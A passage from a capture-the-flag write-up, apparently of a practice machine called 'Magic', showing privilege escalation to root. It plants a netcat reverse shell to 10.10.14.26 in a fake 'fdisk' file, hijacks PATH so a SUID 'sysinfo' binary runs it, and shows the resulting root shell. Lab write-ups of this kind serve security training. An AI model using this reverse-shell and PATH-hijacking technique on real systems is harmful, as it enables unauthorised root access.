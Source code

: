 ```bash
                                                                                                       
2020-08-21 10:31:03 (1.07 MB/s) - ‘nc’ saved [35520/35520] 
```
We transfer `nc` to the magic box.

We then echo our nc connection shell to our file

```bash
theseus@ubuntu:/tmp$ echo "/tmp/nc -e /bin/bash 10.10.14.26 1234" >> fdisk
echo "/tmp/nc -e /bin/bash 10.10.14.26 1234" >> fdisk
```

Then `chmod +x fdisk`

Do this also for `nc` 
```
theseus@ubuntu:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
```
Then make sure that you run `chmod 755` on `fdisk` and run `sysinfo`

##  Root.txt
Then we get a connection back on our listener as root!
```
┌──(kali㉿kali)-[~/tools]
└─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.185] 38872
id && hostname
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
ubuntu
```

Thanks for reading hope that you enjoyed! If it was worth the read please go and support me on buymeacoffee it would mean so much if you do!
